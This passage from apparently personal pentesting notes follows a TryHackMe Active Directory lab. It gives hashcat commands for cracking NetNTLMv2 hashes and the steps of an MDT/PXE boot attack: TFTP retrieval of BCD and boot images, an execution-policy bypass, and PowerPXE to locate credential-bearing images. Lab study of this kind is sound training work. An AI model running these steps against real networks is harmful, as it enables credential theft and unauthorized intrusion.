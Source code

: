 **Kali**

```
hashcat -m 5600 hash.txt passwordlist.txt --force 
hashcat -m 5600 hash.txt passwordlist.txt --force --show
```

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (6).png" alt=""><figcaption></figcaption></figure>

## Microsoft Deployment Toolkit

**Examples**

[#microsoft-deployment-toolkit](../../walkthroughs/tryhackme/breaching-active-directory.md#microsoft-deployment-toolkit "mention")

**Kali**

```
ssh thm@THMJMP1.za.tryhackme.com
Password: Password1@
```

**Victim**

```
cd Documents
mkdir thm
copy C:\powerpxe thm
cd thm
```

**Victim**

```
tftp -i $THMMDTIP GET "\Tmp\x64{39...28}.bcd" conf.bcd
```

**Victim**

```
powershell -executionpolicy bypass
Import-Module .\PowerPXE.ps1
$BCDFile = "conf.bcd"
Get-WimFile -bcdFile $BCDFile
```

**Victim**

```
tftp -i $THMMDTIP  GET "<PXE Boot Image Location>" pxeboot.wim
```

**Victim**
